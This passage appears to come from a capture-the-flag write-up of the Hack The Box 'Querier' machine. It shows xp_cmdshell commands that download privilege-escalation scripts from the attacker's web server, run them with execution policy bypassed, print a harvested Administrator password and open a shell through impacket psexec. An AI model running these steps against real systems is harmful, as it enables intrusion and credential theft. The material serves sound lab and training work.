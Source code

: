```text
SQL> xp_cmdshell powershell -command "& { echo $Env:PSModulePath }
output
--------------------------------------------------------------------------------
C:\Users\mssql-svc\Documents\WindowsPowerShell\Modules;C:\Program Files\WindowsPowerShell\Modules;  
C:\Windows\system32\WindowsPowerShell\v1.0\Modules;  
C:\Program Files (x86)\Microsoft SQL Server\140\Tools\PowerShell\Modules\
```

It's safe to use the user's modules path as we know we'll have read/write access there. On our attacking machine, let's setup a simple web-server to serve our powershell scripts:

```text
~/ctf/htb/querier λ python -m SimpleHTTPServer 8080
Serving HTTP on 10.10.33.33 port 8080 ...
```

Next, we need to download the scripts to the victim machine from our attacking machine's web-server we just started:

```text
SQL> xp_cmdshell powershell -command "& { iwr http://10.10.33.33:8080/Get-System.ps1 -OutFile 
 C:\Users\mssql-svc\Documents\Get-System.ps1 }"
SQL> xp_cmdshell move C:\Users\mssql-svc\Documents\* C:\Users\mssql-svc\Documents\WindowsPowerShell\  
Modules\Privesc\
```

We repeat this process for all files in the "Privesc" module until the victim machine has the complete module. Note, I first had to download them to a separate folder, then move them to the modules folder in PATH as powershell was complaining the command was too long. After transferring all of the files, we import and then run the module with the "Invoke-AllChecks" argument so that it tries every avenue of escalation:

```text
SQL> xp_cmdshell powershell -exec bypass -command "& { Import-Module Privesc; Invoke-AllChecks |  
Out-File -Encoding ASCII C:\Users\mssql-svc\Documents\checks.txt} "

[*] Checking for cached Group Policy Preferences .xml files....
NULL
NULL
Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml  
```

The module gets a hit and finds the Administrator password cached in a file related to group policy preferences. Let's now continue our use of impacket, but try their [psexec][6] script this time to login as Administrator and get a command prompt:

```text
~/ctf/htb/querier λ python /usr/share/doc/python-impacket/examples/psexec.py Administrator@10.10.10.125 cmd
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.125.....
[*] Found writable share ADMIN$
[*] Uploading file KDeIoUIg.exe
[*] Opening SVCManager on 10.10.10.125.....
[*] Creating service ccNr on 10.10.10.125.....
[*] Starting service ccNr.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.292]
```

[1]: https://www.hackthebox.eu/home/users/profile/2570
[2]: https://www.hackthebox.eu/home/users/profile/1190
[3]: https://www.hackthebox.eu
[4]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py
[5]: https://github.com/PowerShellMafia/PowerSploit
[6]: https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py